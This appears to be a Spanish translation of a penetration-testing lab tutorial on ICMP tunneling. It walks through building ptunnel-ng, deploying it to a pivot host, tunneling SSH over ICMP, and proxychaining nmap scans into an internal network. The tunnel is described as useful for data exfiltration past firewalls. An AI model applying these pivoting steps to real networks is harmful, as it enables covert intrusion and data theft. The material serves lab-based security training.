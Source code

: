 ICMP tunneling encapsula tu tráfico dentro de `ICMP packets` que contienen `echo requests` y `responses`. ICMP tunneling solo funcionará cuando las respuestas de ping estén permitidas dentro de una red con firewall. Cuando a un host dentro de una red con firewall se le permite hacer ping a un servidor externo, puede encapsular su tráfico dentro del ping echo request y enviarlo a un servidor externo. El servidor externo puede validar este tráfico y enviar una respuesta adecuada, lo cual es extremadamente útil para la exfiltración de datos y la creación de túneles de pivot a un servidor externo.

Usaremos la herramienta [ptunnel-ng](https://github.com/utoni/ptunnel-ng) para crear un túnel entre nuestro servidor Ubuntu y nuestro host de ataque. Una vez creado el túnel, podremos hacer proxy de nuestro tráfico a través del `ptunnel-ng client`. Podemos iniciar el `ptunnel-ng server` en el host de pivote objetivo. Comencemos configurando ptunnel-ng.

---

## Setting Up & Using ptunnel-ng

Si ptunnel-ng no está en nuestro host de ataque, podemos clonar el proyecto usando git.

### Cloning Ptunnel-ng

```r
git clone https://github.com/utoni/ptunnel-ng.git
```

Una vez clonado el repositorio de ptunnel-ng en nuestro host de ataque, podemos ejecutar el script `autogen.sh` ubicado en la raíz del directorio ptunnel-ng.

### Building Ptunnel-ng with Autogen.sh

```r
sudo ./autogen.sh 
```

Después de ejecutar autogen.sh, ptunnel-ng puede usarse tanto del lado del cliente como del servidor. Ahora necesitaremos transferir el repositorio desde nuestro host de ataque al host objetivo. Como en secciones anteriores, podemos usar SCP para transferir los archivos. Si queremos transferir todo el repositorio y los archivos contenidos dentro, necesitaremos usar la opción `-r` con SCP.

### Transferring Ptunnel-ng to the Pivot Host

```r
scp -r ptunnel-ng ubuntu@10.129.202.64:~/
```

Con ptunnel-ng en el host objetivo, podemos iniciar el lado del servidor del túnel ICMP usando el comando directamente a continuación.

### Starting the ptunnel-ng Server on the Target Host

```r
ubuntu@WEB01:~/ptunnel-ng/src$ sudo ./ptunnel-ng -r10.129.202.64 -R22

[sudo] password for ubuntu: 
./ptunnel-ng: /lib/x86_64-linux-gnu/libselinux.so.1: no version information available (required by ./ptunnel-ng)
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
```

La dirección IP que sigue a `-r` debe ser la IP en la que queremos que ptunnel-ng acepte conexiones. En este caso, la IP que sea alcanzable desde nuestro host de ataque sería la que usaríamos. Nos beneficiaría usar este mismo pensamiento y consideración durante un engagement real.

De vuelta en el host de ataque, podemos intentar conectarnos al servidor ptunnel-ng (`-p <ipAddressofTarget>`) pero asegurándonos de que esto suceda a través del puerto local 2222 (`-l2222`). Conectarse a través del puerto local 2222 nos permite enviar tráfico a través del túnel ICMP.

### Connecting to ptunnel-ng Server from Attack Host

```r
sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22

[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.
```

Con el túnel ICMP de ptunnel-ng establecido con éxito, podemos intentar conectarnos al objetivo usando SSH a través del puerto local 2222 (`-p2222`).

### Tunneling an SSH connection through an ICMP Tunnel

```r
ssh -p2222 -lubuntu 127.0.0.1

ubuntu@127.0.0.1's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 11 May 2022 03:10:15 PM UTC

  System load:             0.0
  Usage of /:              39.6% of 13.72GB
  Memory usage:            37%
  Swap usage:              0%
  Processes:               183
  Users logged in:         1
  IPv4 address for ens192: 10.129.202.64
  IPv6 address for ens192: dead:beef::250:56ff:feb9:52eb
  IPv4 address for ens224: 172.16.5.129

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

144 updates can be applied immediately.
97 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


Last login: Wed May 11 14:53:22 2022 from 10.10.14.18
ubuntu@WEB01:~$ 
```

Si se configura correctamente, podremos ingresar credenciales y tener una sesión SSH a través del túnel ICMP.

En el lado del cliente y del servidor de la conexión, notaremos que ptunnel-ng nos proporciona registros de sesión y estadísticas de tráfico asociadas con el tráfico que pasa a través del túnel ICMP. Esta es una forma de confirmar que nuestro tráfico está pasando del cliente al servidor utilizando ICMP.

### Viewing Tunnel Traffic Statistics

```r
[inf]: Incoming tunnel request from 10.10.14.18.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: 
Session statistics:
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%
[inf]: 
```

También podemos usar este túnel y SSH para realizar `dynamic port forwarding` y permitirnos usar proxychains de varias maneras.

### Enabling Dynamic Port Forwarding over SSH

```r
ssh -D 9050 -p2222 -lubuntu 127.0.0.1

ubuntu@127.0.0.1's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)
<snip>
```

Podríamos usar proxychains con Nmap para escanear objetivos en la red interna (172.16.5.x). Según nuestros descubrimientos, podemos intentar conectarnos al objetivo.

### Proxychaining through the ICMP Tunnel

```r
proxychains nmap -sV -sT 172.16.5.19 -p3389

ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-11 11:10 EDT
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:80-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:3389-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:3389-<><>-OK
Nmap scan report for 172.16.5.19
Host is up (0.12s latency).

PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.78 seconds
```

---

## Network Traffic Analysis Considerations

Es importante que confirmemos que las herramientas que estamos usando están funcionando como se espera y que las hemos configurado y estamos operando correctamente. En el caso de tunelizar tráfico a través de diferentes protocolos enseñados en esta sección con ICMP tunneling, podemos beneficiarnos de

 analizar el tráfico que generamos con un analizador de paquetes como `Wireshark`. Observa detenidamente el clip corto a continuación.

![](https://academy.hackthebox.com/storage/modules/158/analyzingTheTraffic.gif)

En la primera parte de este clip, se establece una conexión a través de SSH sin usar ICMP tunneling. Podemos notar que se captura tráfico `TCP` y `SSHv2`.

El comando usado en el clip: `ssh ubuntu@10.129.202.64`

En la segunda parte de este clip, se establece una conexión a través de SSH usando ICMP tunneling. Nota el tipo de tráfico que se captura cuando esto se realiza.

Comando usado en el clip: `ssh -p2222 -lubuntu 127.0.0.1`

---

**Note**: Cuando inicies tu objetivo, te pedimos que esperes de 3 a 5 minutos hasta que todo el laboratorio con todas las configuraciones esté configurado para que la conexión a tu objetivo funcione sin problemas.

**Note**: Considera las versiones de GLIBC, asegúrate de estar al nivel de la que está en el objetivo.